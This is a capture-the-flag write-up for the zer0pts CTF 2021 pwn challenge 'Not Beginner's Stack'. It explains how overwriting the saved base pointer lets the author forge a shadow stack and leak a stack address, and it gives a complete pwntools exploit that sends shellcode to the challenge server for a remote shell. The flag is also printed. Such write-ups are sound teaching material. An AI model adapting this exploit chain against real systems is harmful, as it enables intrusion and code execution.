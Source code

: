 # [zer0pts CTF 2021](https://2021.ctf.zer0pts.com) - "Not Beginner's Stack"

## Challenge

### Description

Elementary pwners love to overwrite the return address. This time you can't!
`nc pwn.ctf.zer0pts.com 9011`

### Files

```
not_beginners_stack_0956db1b183fd1e9877f64c713871f3b.tar.gz/
  not_beginners_stack/
    chall
    FOR_BEGINNERS.md
    main.S
```

## Analysis

The tarball contains a file `FOR_BEGINNERS.md` explaining the stack, how stack buffer overflows are normally used to overwrite the return pointer and why it won't work in this challenge since `call`/`ret` are replaced with `jmp`s reading return pointers from a "shadow stack" stored in the `.bss` section. It also provides a hint on what can be done instead, i.e. overwriting the base pointer.

We are given the assembly code `main.S` of the challenge binary, so there is not much reverse engineering required to craft an exploit. I use `objdump -d -M intel chall` to find the raw addresses and generated labels I need.

`checksec` on `chall`:
```
[*] "/home/luca/projects/zer0pts CTF/pwn/Not Beginner's Stack/not_beginners_stack/chall"
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
This should be easy.^1^

The output of `checksec` is especially important for this challenge as it correctly reports the stack to be executable *in theory*, which it is not on my local machine or, apparently, on modern kernels in general.^2^ This means that we cannot get the shellcode part of my exploit to work locally, but at least it works on the remote.

> It works on their machine. --- Then we'll ship their machine.

With the return addresses on a shadow stack, we need to find a way to write there. Since `rbp` is still saved to the "regular" stack, we can overwrite it with a pointer into the data segment (the address of which is known because of `No PIE`) using the vulnerable `read` in `vuln` (reading up to 4096 bytes into a 256-byte stack buffer). Then, the `leave` instruction at the end of `vuln` sets `rsp` to the current base pointer and pops `rbp` off the stack, thus setting it to our desired value. The subsequent `read` in `notvuln` now writes a shiny new shadow stack to `[rbp-0x100]`.

## Exploit

My exploit requires the current `stable` version of `pwntools` (`4.3.1` at the time of writing).

```python=
#!/usr/bin/env python3

from pwn import *

BINARY = 'not_beginners_stack/chall'
```

I implemented my own little helper class for building the shadow stack, similar to `pwntools`' `ROP`.

```python=
class ShadowStack:
    def __init__(self, binary):
        self.binary = binary
        self.depth = 0
        self.stack = b''
        self.meta = []

    def __getattr__(self, sym):
        addr = self.binary.symbols[sym]
        def call(*args):
            if args:
                raise NotImplementedError
            self.call(addr, sym)

        return call

    def call(self, addr, meta=None):
        self.depth += 1
        self.stack = p64(addr) + self.stack
        self.meta.append(meta)

    def chain(self, length=None):
        return flat({0x0: p32(self.depth), 0x6: self.stack}, length=length)

    def dump(self):
        stack = self.stack
        dump = [f'__stack_depth: {self.depth}', '__stack_shadow:']
        for i, m in enumerate(self.meta):
            addr = int.from_bytes(stack[-8:], context.endian)
            stack = stack[:-8]
            dump.append(f'  [{len(self.meta)-i-1}] {hex(addr)} ' + (m or '<raw>'))
        return '\n'.join(dump)
```

The first part of the exploit builds a new shadow stack used to overwrite the current one as described above:
1. `notvuln()` --- `enter`s twice, but `leave`s only once; the second `enter` pushes an address to the regular stack onto it
2. `vuln()` --- `enter`s the second stack frame from the previous call again, `rdi`, `rsi` and `rdx` will be set to `0`, `[rbp-0x100]` and `0x1000`, respectively
3. `0x400115()`^3^ --- set `rdi` to `1`, then call `write`, then `read`; this leaks 4096 bytes of stack memory and reads some shellcode onto the stack; the aforementioned stack address is at offset `0x100` in the leak
5. `..@9.return_address()` --- `leave` to set `rbp` to `[__stack_shadow+0x100]`
6. `..@5.return_address()` --- read another shadow stack
7. `exit()` --- not used in the final exploit, cleanly exit when testing e.g. the leak

```python=
context(binary=BINARY)
elf = context.binary

shadow = ShadowStack(elf)
shadow.notvuln()
shadow.vuln()
#shadow.call(0x40018a)
shadow.call(0x400115)
getattr(shadow, '..@9.return_address')()
getattr(shadow, '..@5.return_address')()
shadow.exit()
print(shadow.dump())
```

Send/receive data as described above or required for `read` to continue:

```python=
shellcode = asm(shellcraft.sh())

#conn = process(BINARY)
conn = remote('pwn.ctf.zer0pts.com', 9011)

#gdb.attach(conn)

# regular i/o
conn.sendafter(b'Data: ', flat({0x100: elf.symbols['__stack_depth']+0x100})) # overwrite rbp
conn.sendafter(b'Data: ', shadow.chain(0x100)) # overwrite shadow stack

# shadow.notvuln()
conn.sendafter(b'Data: ', b'A')
conn.sendafter(b'Data: ', b'A')

# shadow.vuln()
conn.sendafter(b'Data: ', b'A')

leak = conn.recvn(0x1000)
#print(hexdump(leak))

# shadow.call(0x40018a)
#conn.send(flat({0x0: shellcode, 0x100: elf.symbols['__stack_depth']+0x100}, length=0x1000))

# shadow.call(0x400115)
conn.send(flat(shellcode, length=0x100))
```

The second part of the exploit consists of extracting the leaked stack address and building another shadow stack to jump to the shellcode at `stack_addr-0x100`:

```python=
stack_addr = int.from_bytes(leak[0x100:0x108], context.endian)
print('Leaked address:', hex(stack_addr))

# getattr(shadow, '..@5.return_address')()
shadow = ShadowStack(elf)
shadow.call(stack_addr-0x100)
conn.send(shadow.chain(0x100))
#conn.send(p32(1))

conn.interactive()
```

(For testing the leak, we can send `1` instead of the shadow stack. The process then returns to `exit` instead of the shellcode to terminate itself after the leak.)

This will give us a shell from which we can run `cat flag-*.txt`. Yay!

```
zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}
```

Sometimes the script will hang when reading the leak. `Ctrl-C` and running it again works for me.

## Footnotes

1. It still took me way too long to get to a working exploit or even the leak.
2. It could have been even easier: As it turns out, not only is the stack executable, but the data segment as well.
3. I originally intended to use `0x40018a` here since it would ensure that the following `leave` (which would also be included, rendering `..@9.return_address` unnecessary) loads `[__stack_shadow+0x100]` into `rbp` by writing that address to the stack again. However, the value is already there and I did not want to print another prompt or otherwise separate the final two unconditional `send`s, so I chose to use `0x400115` and write as much bytes as would be consumed. Writing as much bytes as `read` would consume at `0x40018a` did not work --- overflowing the buffer with 4096 bytes lead to a segmentation fault.
